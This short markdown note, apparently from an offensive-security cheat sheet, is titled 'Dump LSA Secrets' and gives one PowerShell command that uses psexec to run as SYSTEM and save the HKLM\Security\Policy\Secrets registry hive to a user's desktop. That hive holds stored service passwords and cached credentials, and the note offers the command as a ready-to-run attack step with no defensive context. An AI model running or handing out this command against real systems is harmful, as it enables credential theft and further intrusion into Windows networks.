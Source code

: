 # Dump LSA Secrets

Run the following command as Administrator:

```powershell
psexec -accepteula -s reg save HKLM\Security\Policy\Secrets C:\Users\<user>\Desktop\secrets /y
```

